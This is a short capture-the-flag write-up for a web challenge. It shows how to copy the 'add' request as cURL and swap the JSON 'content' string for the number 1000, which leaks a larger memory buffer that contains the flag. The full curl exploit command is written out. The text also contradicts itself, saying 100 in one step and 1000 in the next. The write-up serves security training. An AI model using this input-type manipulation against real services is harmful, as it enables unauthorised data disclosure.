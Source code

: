 ![image](https://github.com/user-attachments/assets/66c0298b-f9ed-4e9d-9504-51d512dd74f5)

- Go to the developer tools and look at the Network tab
- We can see that when we add an item, a certain payload is created
- Exploit that payload with the ```{content: "Banana"}```
  
- Copy the cURL
![image](https://github.com/user-attachments/assets/e5dd8faa-56b9-4c8c-afc7-caba37a825cd)

- Edit the payload to look simlar to this (IMPORTANT: make the content at the end 100):
- Making it 1000 increases the buffer size to display the entire flag
- Paste the cURL command into a bash terminal (I used WSL)
  
![image](https://github.com/user-attachments/assets/34c8a7e5-4dbd-48ff-9d79-3ad7a82c551a)


```
curl \
  "https://02b3d108f37e3f976fe9ac2065b02e23-leek.web.cityinthe.cloud/add" \
  -H "Accept: */*" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Connection: keep-alive" \
  -H "Content-Type: application/json" \
  -H "Origin: https://02b3d108f37e3f976fe9ac2065b02e23-leek.web.cityinthe.cloud" \
  -H "Referer: https://02b3d108f37e3f976fe9ac2065b02e23-leek.web.cityinthe.cloud/" \
  -H "Sec-Fetch-Dest: empty" \
  -H "Sec-Fetch-Mode: cors" \
  -H "Sec-Fetch-Site: same-origin" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36" \
  -H 'sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"' \
  -H "sec-ch-ua-mobile: ?0" \
  -H "sec-ch-ua-platform: \"Windows\"" \
  --data-raw '{"content":1000}'
```

![image](https://github.com/user-attachments/assets/c5aa4be3-c700-4fa1-a47d-5b6331ad7c23)

![image](https://github.com/user-attachments/assets/b4b10464-fc94-499f-bf8c-49185a853a8a)

